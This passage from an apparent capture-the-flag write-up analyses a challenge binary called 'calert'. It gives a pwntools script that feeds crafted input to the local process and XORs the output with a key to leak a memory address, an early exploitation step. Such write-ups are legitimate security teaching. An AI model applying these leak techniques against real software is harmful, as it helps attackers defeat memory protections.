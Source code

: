 So we know that if we input a number lower than `0x80`, the program will xor our input with a strings inside a global variable:

![get-global-string.png](images/get-global-string.png)

So let's make a script to get the hex byte and recover the address of exe:

```python
from pwn import *
from binascii import unhexlify, hexlify

context.binary = exe = ELF('./calert', checksec=False)
context.log_level = 'debug'

p = process(exe.path)

key = b'0123456789ABCDEF'

p.sendlineafter(b'input: ', b'127')
p.sendline(b'A'*7)

ciphertext = unhexlify(p.recvline()[:-1])
plaintext = xor(ciphertext, key)
print(hexlify(plaintext))
```
